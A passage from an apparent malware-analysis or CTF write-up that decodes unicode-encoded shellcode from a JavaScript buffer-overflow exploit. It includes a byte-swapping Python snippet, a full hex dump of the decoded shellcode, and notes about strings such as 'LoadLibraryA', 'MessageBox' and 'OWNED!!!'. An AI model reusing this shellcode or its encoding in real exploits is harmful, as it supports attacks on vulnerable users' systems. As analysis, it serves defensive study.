I spent the majority of the time analyzing the Javascript only to realise this is the exploit itself. The code wraps the shellcode (`IxTUQnOvHg`) around the large payload on top which causes the buffer overflow. Instead of wasting time further analyzing the Javascript, my focus now turns to the shellcode itself.

Admittedly, this was another major stumbling block for me.  The shellcode was in unicode format which I had initially mistaken as two bytes joined together. When I split the data however, ther shellcode was not readable. Only after further research did I realise that the endianness of it was swapped, i.e. the bytes needed to be split then swapped for it to make sense.

Some quick python to the rescue:

```python
payload = '<payload>'
for p in payload.split('%u'):
  print(p[2:4], p[0:2], end=" ")
```

Decoded payload:
```
f9 72 49 46 25 15 0d 7f 3c 3d 84 e0 2a d6 39 e1 4a a8 b9 76 24 98 78 73 71 7d 7f 75 76 20 d4 96 91 ba 70 19 f9 b8 32 e2 7b 46 a8 9b 01 fe c6 c7 c1 e3 24 7e 7c 43 80 e1 15 b1 b2 b3 66 4f b6 27 3c 9f 4e 7a 2d 41 bf bb 05 77 28 f5 93 92 90 99 98 a9 47 0a eb 14 49 3d 4b 48 2f 37 8d b9 78 34 b4 0b d2 d5 31 e0 72 35 10 d6 40 67 be 2b fd 4a 1c 04 97 3f 3a fc 79 74 1d 42 b5 b7 2c 0c 0d 13 f8 25 b0 76 79 4e b1 7b 66 0c bb 2d 1c 91 2f a9 2c b8 b0 8d 7e 0d 96 3b d4 49 6b d5 b7 03 f7 e1 7d 46 b9 77 42 3d 1d 11 e0 67 92 4b 85 eb 71 24 48 9b 02 f9 15 4f ba 04 00 e3 27 87 d6 9f 70 47 7a 18 e2 73 1b fd 74 25 7c 43 90 41 b6 97 99 14 3c 78 37 83 f8 b3 35 72 3f 69 f5 98 be 7f 75 4a 93 b4 a8 b5 bf 21 d0 fc 40 34 7b 05 b2 b2 71 7c 4e 81 e1 22 eb 04 4a 88 e2 2c 2d 49 42 8d b3 75 23 f5 7f 72 0b fc 97 01 f7 d3 f9 90 be 41 1c a8 25 7d 35 b1 78 79 0a f8 32 fd 9b 76 1d 92 b4 bb b8 77 7e 70 73 40 7a 0c 89 d6 91 24 46 14 ba 9f 87 c0 d4 0d b0 4b 2f b6 81 e3 74 05 b9 3f 67 1b d5 93 96 83 e0 66 b5 47 b7 98 3c 15 34 a9 48 37 27 3d 75 4f bf 8c e2 43 99 b8 73 38 eb 7d 7a 25 85 f9 8d bb 91 7f 67 96 92 b2 79 48 3c 4a 33 d4 a9 97 7e 37 47 b3 3d 93 24 05 3f 9f 39 e1 71 35 b4 23 d6 a8 14 88 d1 f8 72 42 ba 76 08 fd 41 be 4b b5 0d 15 77 43 74 11 e3 78 20 e0 1c 04 bf 40 10 d5 27 b7 b1 70 2b f5 2f 22 fc 4e 9b 98 1d 90 2c b6 7c 4f 2d 34 66 0c 99 b0 49 7b 7a 78 7e 7f 73 7d 46 b9 91 b0 8d 92 bf 90 b7 21 f6 e0 4b 13 f5 29 eb 67 77 25 86 e1 05 2a d6 66 b9 a8 35 15 96 42 98 34 99 b1 ba b4 2c b5 12 f8 93 4f 76 7b 79 30 fd be 71 3f 40 4e b3 7c 75 27 09 e2 24 43 70 0c 2d 18 e3 02 f9 4a 47 bb b6 41 9f 72 48 97 80 d4 28 d5 9b 74 3c 1c 84 fc 7d 49 b8 7e 6b d2 e0 1d 76 0d 74 31 eb 14 70 37 a9 71 3d 72 46 b2 78 2f 7f 04 a9 b6 7b 1c 73 3a e1 3c be 19 f9 34 00 d5 7a 03 f8 e2 24 b0 4e fd 79 3d 96 75 15 9b 49 7c 2f b4 4f 9f 99 47 3b c1 d0 e3 14 40 3f 90 bf 41 97 43 8d b8 48 b5 77 0d b2 4a 93 2d 67 92 98 b1 1a fc b9 d4 2c b3 f5 ba 0c 69 d6 91 a8 04 bb 1d 66 46 05 25 b7 35 42 37 27 4b 90 fc 33 d2 b2 30 64 ff 32 5a 8b 52 0c 8b 52 14 8b 72 28 33 c9 b1 18 33 ff 33 c0 ac 3c 61 7c 02 2c 20 c1 cf 0d 03 f8 e2 f0 81 ff 5b bc 4a 6a 8b 5a 10 8b 12 75 da 8b 53 3c 03 d3 ff 72 34 8b 52 78 03 d3 8b 72 20 03 f3 33 c9 41 ad 03 c3 81 38 47 65 74 50 75 f4 81 78 04 72 6f 63 41 75 eb 81 78 08 64 64 72 65 75 e2 49 8b 72 24 03 f3 66 8b 0c 4e 8b 72 1c 03 f3 8b 14 8e 03 d3 52 33 ff 57 68 61 72 79 41 68 4c 69 62 72 68 4c 6f 61 64 54 53 ff d2 68 33 32 01 01 66 89 7c 24 02 68 75 73 65 72 54 ff d0 68 6f 78 41 01 8b df 88 5c 24 03 68 61 67 65 42 68 4d 65 73 73 54 50 ff 54 24 2c 57 68 44 21 21 21 68 4f 57 4e 45 8b dc e8 00 00 00 00 8b 14 24 81 72 0b 16 a3 fb 32 68 79 ce be 32 81 72 17 ae 45 cf 48 68 c1 2b e1 2b 81 72 23 10 36 9f d2 68 71 44 fa ff 81 72 2f f7 a9 a9 0c 68 84 e9 cf 60 81 72 3b be 93 a9 43 68 d2 a3 98 37 81 72 47 82 8a 62 3b 68 ef a4 11 4b 81 72 53 d6 47 c0 cc 68 be 69 a4 ff 81 72 5f a3 ca 54 31 68 d4 ab 65 52 8b cc 57 53 51 57 8b f1 89 f7 83 c7 1e 39 fe 7d 0b 81 36 42 45 45 46 83 c6 04 eb f1 ff d0 68 65 73 73 01 8b df 88 5c 24 03 68 50 72 6f 63 68 45 78 69 74 54 ff 74 24 40 ff 54 24 40 57 ff d0
```

Loading this into Cutter shows that we are on the right track as there are noteworthy strings like 'LoadLibraryA', 'MessageBox' and 'OWNED!!!'
